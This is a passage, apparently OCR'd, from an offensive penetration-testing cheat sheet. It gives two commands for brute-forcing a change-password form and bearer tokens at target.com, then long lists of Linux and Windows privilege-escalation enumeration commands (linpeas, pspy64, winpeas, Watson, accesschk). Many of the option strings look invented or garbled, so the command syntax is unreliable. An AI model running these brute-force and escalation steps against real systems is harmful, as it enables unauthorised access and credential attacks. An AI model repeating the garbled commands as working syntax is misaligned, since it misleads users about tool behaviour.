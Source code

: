     session-fuzz -u https://target.com/change_password -c session_cookie -d "current_password=FUZZ&new_password=newpass&confirm_password=newpass" -w /usr/share/seclists/Passwords/Common-Credentials/top-passwords.txt -rate 50
    session-bruteforcer -u https://target.com/api/session -H "Authorization: Bearer FUZZ" -t long_token_list.txt -r "valid" -threads 20

# 6. POST-EXPLOITATION

## 6.1 Privilege Escalation
### Linux:
    linpeas.sh
    linpeas.sh -a -t -s -p -c -S -r -e -P -C
    linux-exploit-suggester.sh -k 5.4.0-26-generic
    pspy64
    pspy64 -p -i -U -C -f
    SUID3NUM -q -p -s -g
    ------
    linpeas.sh -a -t -s -p -c -S -r -e -P -C -l -u -n -i -d /tmp -w /tmp/writable
    linux-exploit-suggester.sh -k $(uname -r) -l
    searchsploit Linux kernel $(uname -r)
    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null
    find / -writable -type d 2>/dev/null
    find / -user $(whoami) -perm -0400 -type f 2>/dev/null
    pspy64 -p -i -U -C "/bin/bash" -f "root"
    SUID3NUM -q -p -s -g -w
    ------
    linpeas.sh -a -t -s -p -c -S -r -e -P -C -l -u -n -i -d /tmp -w /tmp/writable -b -o /tmp/linpeas_full.txt
    linux-exploit-suggester.sh -k $(uname -r) -l -c
    searchsploit Linux kernel $(uname -r) local privesc
    find / -perm -o=w -type f 2>/dev/null
    find / -nouser -o -nogroup -type f 2>/dev/null
    find / -name "*.so" -perm -u=s -type f 2>/dev/null
    pspy64 -p -i -U -C "/usr/bin/sudo" -f "$(whoami)"
    SUID3NUM -q -p -s -g -w -v


### Windows:
    winpeas.exe
    winpeas.exe all quiet csv outputfile=winpeas.csv
    windows-exploit-suggester.py --database 2021-04-15-mssb.xls --ostext 'Windows 10'
    Watson.exe --search all --output results.txt
    ------
    winpeas.exe all quiet csv outputfile=winpeas_full.csv -nobanner
    windows-exploit-suggester.py --database 2023-01-01-mssb.xls --ostext 'Windows Server 2019' --arch 64
    Watson.exe --search all --output results_full.txt --modules kernel32.dll,advapi32.dll
    accesschk.exe -quvwc users c:\
    accesschk.exe -quvwc "Authenticated Users" "HKLM\SYSTEM\CurrentControlSet\Services"
    Get-Process -Id 1 | Get-ObjectSecurity | Format-List -Property *
    Get-Service | Where-Object {$_.StartMode -eq "Auto" -and $_.StartName -ne "NT AUTHORITY\SYSTEM"}
    ------
    winpeas.exe all quiet csv outputfile=winpeas_very_full.csv -nobanner -detailed
    windows-exploit-suggester.py --database 2024-01-01-mssb.xls --ostext 'Windows Server 2022' --arch 64 --cve CVE-2020-*
    Watson.exe --search all --output results_extensive.txt --modules *.dll
    accesschk.exe -quvwc everyone c:\windows
    accesschk.exe -quvwce "NT AUTHORITY\SYSTEM" * /accepteula